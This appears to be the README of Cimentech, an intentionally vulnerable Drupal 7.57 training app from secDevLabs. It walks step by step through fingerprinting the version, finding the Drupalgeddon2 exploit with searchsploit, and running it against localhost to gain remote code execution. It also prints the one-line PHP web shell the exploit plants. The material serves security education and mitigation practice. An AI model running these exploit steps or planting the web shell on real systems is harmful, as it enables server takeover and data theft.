

# Cimentech

<p align="center">
    
</p>

Cimentech is a simple web application built with Drupal that contains an example of a component with a known vulnerability and its main goal is to demonstrate how an attacker could exploit it.

## Index

- [Definition](#what-does-it-mean-to-use-a-component-with-known-vulnerabilities)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What does it mean to use a component with known vulnerabilities?

Imagine that components, such as libraries, frameworks, and other software modules, run with the same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover. Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts.

The main goal of this app is to discuss how **Vulnerable and Outdated Components** can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a9/cimentech
```

```sh
make install
```

Then simply visit [localhost][app] ! 😆

## Get to know the app 🏗

To properly understand how this application works, you could:

- Visit its homepage!

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Use of a vulnerable Drupal version allows for remote code execution

It's possible to reach the server's web application from the standard HTTP port 80, as shown by the image below:


Afterward, by having a look at the `/robots.txt` file, it's possible to find the `CHANGELOG.txt` file in the `Disallow` field, as depicted by the image below:


When accessed, an indication of the version of the Content Management System (Drupal) can be found, as shown below:


Having the CMS version, it's possible to check on [exploit-db][3] if there are any exploits associated with that version, in this case, Drupal 7.57. The results of the search are depicted in the image below:


By using [searchsploit](https://www.exploit-db.com/searchsploit), an attacker could also find this same result via a terminal. To install it, simply type the following in your OSX terminal (keep in mind it might trigger your anti-virus software) :

```sh
⚠️ 'The next command will install several exploit codes in your system and many of them may trigger antiviruses alerts'

brew install exploitdb
```

Then simply search for the version of the CMS found:

```sh
searchsploit drupal 7.
```

If you are using OSX, this command will help you to copy the exploit to your `/tmp` folder:

```
cp /usr/local/opt/exploitdb/share/exploit-database/exploits/php/webapps/44449.rb /tmp
```

## 🔥

Running the malicious Ruby code, we have evidence that remote code execution is possible on the web server, using the following commands as shown below:

```sh
ruby /tmp/44449.rb http://localhost
```


**NOTE**: You need to have Ruby installed on your system to run the exploit, for information on how to install it, click [here][1]!

**NOTE 2**: If you came across an execution error when trying to run the exploit, please have a look at this [Issue][4] for information on how to proceed.

The exploit works by adding into the server a malicious `s.php`, which allows remote code execution on it via following malicious content:

```php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```

Using the exploit's "fake shell", we can type a command, such as `whoami`, to verify that we indeed have an RCE on the server, as shown by the image:


## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Execute code remotely through the exploit above

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3ACimentech)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:80
[secdevlabs]: https://github.com/globocom/secDevLabs
[1]: https://www.ruby-lang.org/en/documentation/installation/
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a9/Cimentech
[3]: https://www.exploit-db.com/
[4]: https://github.com/globocom/secDevLabs/issues/212
